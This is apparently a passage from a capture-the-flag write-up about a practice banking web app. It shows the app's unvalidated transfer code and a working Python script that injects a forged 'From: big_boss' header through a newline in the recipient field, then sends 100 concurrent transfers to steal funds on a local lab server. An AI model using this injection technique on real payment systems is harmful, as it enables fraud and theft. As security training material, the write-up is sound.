 It seems the most recent key-value pair is taken, meaning if we somehow snuck an extra `From: big_boss` header line, we could have the money sent from the big boss instead.
To confirm, let's go back to `util.py` and see how the socket request is made again.
```python
def do_transfer(frm, to, amt, otp):  
    """  
    msg = f"Transact\nFrom: {frm}\nTo: {to}\nAmount: {amt}\nCode: {otp}".encode()    """    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
    sock.connect((HOST, PORT))  
    # TODO No username validation, we can sneak in new headers  
    msg = f"Transact\nFrom: {frm}\nTo: {to}\nAmount: {amt}\nCode: {otp}"  
    print(f"Socket data:\n{msg}")  
    msg = msg.encode()  
  
    sock.sendall(msg)  
    recv = sock.recv(1024)  
    if recv.startswith(b"Failed"):  
        print("Transfer failure")  
        print(recv.decode())  
        return  
    return recv.decode()
```
As `frm` is the first parameter, we can inject the extra `From:` header in any argument and have the server use that instead. Checking back to the `/transfer` endpoint, we can confirm no validation is done on our input, and we can freely inject newlines
```python
@app.route('/transfer', methods=('POST',))  
@login_required  
def transfer():  
    to_username = request.form.get("to", None)  
    amount = request.form.get("amount", None)  
    otp = request.form.get("otp", None)  
  
    if not do_transfer(session['username'], to_username, amount, otp):  
        flash("Transfer failed!", "danger")  
    else:  
        flash("Transfer success!", "success")  
    return redirect(url_for('dashboard'))
```
Now, all we need to do is siphon money out of the big boss account into ours. As it seems, all we need to do is transfer $10000 \* 100 times to obtain the target amount of money.
```python
import httpx  
import asyncio  
  
url = "http://127.0.0.1:33339"  
  
async def transfer(client: httpx.AsyncClient, username, otp):  
    res = await client.post(f"{url}/transfer", data={"to": f"{username}\nFrom:big_boss", "amount": "10000", "otp": otp})  
    return "Success" in res.text  
  
async def main():  
    async with httpx.AsyncClient() as client:  
        res = await client.post(f"{url}/login", data={"username": "someuser", "password": "someuser"})  
        print(res.text)  
        queue = []  
        otp = input("Enter OTP: ")  
        for i in range(100):  
            res = transfer(client, "someuser", otp)  
            queue.append(res)  
        queue = await asyncio.gather(*queue)  
        print(queue)  
  
```